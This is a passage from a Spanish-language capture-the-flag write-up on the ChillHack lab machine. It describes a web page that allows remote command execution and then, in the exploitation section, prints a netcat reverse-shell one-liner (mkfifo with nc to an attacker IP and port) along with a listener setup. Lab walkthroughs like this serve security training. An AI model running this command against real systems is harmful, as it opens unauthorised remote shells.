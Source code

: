 ![](/assets/images/ChillHack/image031.png)

Podemos observar que el recurso secret viene a ser una pagina web que nos permite ejecutar comandos remotos en el sistema destino, pero hay un filtro que no permite ejecutar varios comandos. Con esto tiene mucho sentido el contenido del archivo note.txt encontrada en el servidor FTP.

## FASE HACKING O GANAR ACCESO O EXPLOTACION
Ahora probaremos el comando mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f, que nos debería generar una reverse Shell en el caso de que no fuese filtrado, pero antes habilitaremos el puerto 1500 para que este en escucha esperando la conexión entrante generada por el comando anterior.

![](/assets/images/ChillHack/image033.png)

![](/assets/images/ChillHack/image035.png)
